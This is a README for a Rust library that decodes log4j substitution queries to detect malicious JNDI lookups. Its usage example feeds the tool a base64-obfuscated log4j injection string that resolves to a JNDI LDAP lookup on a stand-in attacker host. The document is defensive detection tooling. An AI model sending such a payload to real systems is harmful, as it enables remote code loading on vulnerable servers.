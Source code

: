 # log4j_interpreter
A Rust library for evaluating log4j substitution queries in order to determine whether or not malicious queries may exist.

## Limitations

### Encoding

This tool assumes any log line has already been decoded before being passed to the tool. For example, if the log line is URL encoded or base64 encoded when it's passed to this tool, it will by pass the tool. Only fully decoded log lines should be passed to the tool.

### Interpolation

This tool assumes it's operating on entire log lines at once. Should the processed lines be passed to additional log aggregators that interpolate values again, this tool does not capture cases where the interpolatd values re-expose a vulnerability.

## Test Executable

This package includes a test executable to which test strings can be passed on the command line.

Here is an example detecting an obfuscated use of `jndi:`.

```
$ ./log4j_interpreter
Usage: ./log4j_interpreter [test string]
$ ./log4j_interpreter 'hello ${base64:JHtqbmRpOmxkYXA6ZXZpbC5wYXJ0eX0=}'
Substitued: hello jndi:ldap:evil.party
JNDI: true
ENV: false
Recursion Limit: false
```

Here is an example that allows a benign string to pass:

```
$ ./log4j_interpreter 'a benign string ${base64:d2l0aCBzb21lIGJhc2U2NA==}'
Substitued: a benign string with some base64
JNDI: false
ENV: false
Recursion Limit: false
```